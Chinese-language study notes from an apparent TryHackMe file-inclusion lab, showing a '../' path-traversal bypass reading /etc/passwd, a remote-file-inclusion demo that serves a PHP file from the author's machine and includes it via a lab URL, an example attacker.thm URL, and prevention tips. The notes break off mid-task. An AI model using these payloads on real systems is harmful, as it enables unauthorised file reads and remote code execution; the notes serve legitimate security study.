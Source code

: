 ## lab6 
提示需要 **Allowed files at THM-profile folder only!**
這樣繞過
```
THM-profile /../../../../../../../etc/passwd
```
# task6
## 遠程文件包含 - RFI  
允許攻擊者將外部 URL 注入到`include`函數中。RFI 的一項要求是`allow_url_fopen`選項需要打開。  
RFI 的風險高於 LFI，因為 RFI 漏洞允許攻擊者在服務器上獲得遠程命令執行 (RCE)。  

**本地**
```
┌─[root@parrot]─[/home/user/RFI]
└──╼ #vim 1.php
┌─[root@parrot]─[/home/user/RFI]
└──╼ #ls
1.php
┌─[root@parrot]─[/home/user/RFI]
└──╼ #cat 1.php
<?PHP echo "Hello THM"; ?>
┌─[root@parrot]─[/home/user/RFI]
└──╼ #python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

**目標**
```
http://10.10.61.65/playground.php?file=http://10.9.1.24:8000/1.php

攻擊者註入惡意URL，指向攻擊者的服務器，如 http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt. 如果沒有輸入驗證，則惡意 URL 將傳遞到包含函數。接下來，Web 應用服務器將向惡意服務器發送GET請求以獲取文件。因此，Web 應用程序將遠程文件包含在 include 函數中，以執行頁面內的 PHP 文件並將執行內容髮送給攻擊者。在我們的例子中，當前頁面某處必須顯示Hello THM消息。
```


# task7
```
作為開發人員，了解 Web 應用程序漏洞、如何找到它們以及預防方法非常重要。為了防止文件包含漏洞，一些常見的建議包括：


1.使用最新版本更新系統和服務，包括 Web 應用程序框架。
2.關閉 PHP 錯誤以避免洩露應用程序的路徑和其他可能洩露的信息。
3.Web 應用程序防火牆 (WAF) 是幫助緩解 Web 應用程序攻擊的好選擇。
4.如果您的 Web 應用程序不需要某些導致文件包含漏洞的 PHP 功能，請禁 
用它們，例如allow_url_fopen on 和allow_url_include。
5.仔細分析 Web 應用程序，只允許需要的協議和 PHP 包裝器。
6.永遠不要相信用戶輸入，並確保針對文件包含實施正確的輸入驗證。
7.對文件名和位置實施白名單以及黑名單
```
# task8
### 1
```
打開bp抓包 ../../../flag1 
然後把請求改成post
```
### 2
```
進去後 看到
```